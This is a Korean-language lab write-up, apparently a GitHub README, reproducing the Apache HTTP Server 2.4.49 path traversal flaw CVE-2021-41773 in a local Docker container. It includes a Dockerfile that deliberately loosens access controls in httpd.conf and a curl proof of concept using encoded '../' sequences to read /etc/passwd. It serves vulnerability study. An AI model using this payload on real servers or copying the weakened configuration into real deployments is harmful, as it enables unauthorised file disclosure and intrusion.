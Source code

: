 # Apache HTTP Server 2.4.49 경로 탐색 및 원격 코드 실행 취약점 (CVE-2021-41773)

Apache HTTP Server 프로젝트는 UNIX 및 Windows 등 다양한 운영체제를 지원하는 오픈소스 웹 서버를 개발 및 유지하는 프로젝트입니다.

Apache HTTP Server 2.4.49 버전에서는 **경로 정규화(Path Normalization)** 처리 과정의 결함으로 인해, 공격자가 URL 요청을 조작하여 문서 루트(DocumentRoot) 외부의 파일에 접근할 수 있는 **경로 탐색(Path Traversal)** 취약점이 발견되었습니다.

만약 서버가 기본 설정인 `Require all denied` 로 외부 파일 접근을 차단하고 있지 않다면, 이 취약점을 통해 공격자는 서버 파일을 읽을 수 있습니다.

---






## 취약 환경 구축
Dockerfile 작성
```
FROM httpd:2.4.49

RUN sed -i 's/AllowOverride none/AllowOverride All/g' /usr/local/apache2/conf/httpd.conf && \
    sed -i 's/Require all denied/Require all granted/g' /usr/local/apache2/conf/httpd.conf && \
    sed -i 's/AllowOverride None/AllowOverride All/g' /usr/local/apache2/conf/httpd.conf
```
- AllowOverride none → AllowOverride All  
.htaccess 파일을 통한 설정 재정의를 허용합니다.
- Require all denied → Require all granted  
기본적으로 모든 요청을 거부하는 대신, 모든 요청을 허용하게 변경합니다.
- AllowOverride None → AllowOverride All  
추가적으로 필요한 경로에서도 .htaccess 기반 설정 변경을 허용합니다.
이 설정 변경을 통해 원래 차단되어야 하는 /etc/passwd 같은 파일도 제한 없이 접근 가능하게 됩니다.

아래 명령어를 사용하여 취약한 Apache 서버 환경을 구성할 수 있습니다.

```bash
docker build -t apache-cve-2021-41773 .
```
![](1.png)

```bash
docker run -d -p 8080:80 --name apache-41773 apache-cve-2021-41773
```
![](2.png)


## 취약점 공격 재현 (PoC)
```bash
curl -v http://127.0.0.1:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```
/etc/passwd 파일 내용을 성공적으로 읽어올 수 있습니다.
![](3.png)
